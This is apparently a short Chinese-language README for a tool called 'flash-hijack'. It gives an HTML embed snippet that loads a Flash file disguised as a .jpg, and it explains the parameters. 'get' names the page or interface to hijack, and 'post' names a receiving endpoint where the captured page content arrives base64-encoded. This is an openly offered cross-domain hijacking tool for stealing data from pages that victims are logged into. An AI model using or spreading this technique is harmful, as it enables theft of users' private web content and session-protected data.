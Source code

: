 # flash-hijack
flash 劫持轮子

使用：
HTML：

&lt;div&gt; 
&lt;embed src=&quot;http://www.baidu.com/hijack.jpg?jpg=http://127.0.0.1/1.png&get=http://127.0.0.1/l.php&post=http://127.0.0.1/2.php&quot; width=&quot;500&quot; height=&quot;500&quot; quality=&quot;high&quot; pluginspage=&quot;http://www.macromedia.com/go/getflashplayer&quot; type=&quot;application/x-shockwave-flash&quot; wmode=&quot;transparent&quot;&gt;&lt;/embed&gt; 
&lt;/object&gt; 
&lt;/div&gt;

参数说明:

jpg：域下的图片（为了优先加载crossdomain.xml，否则劫持的接口加载太慢会导致无法劫持）

get：劫持的接口或者页面

post：接收劫持过来的页面为base64传输

文章:https://zhuanlan.zhihu.com/p/67484852
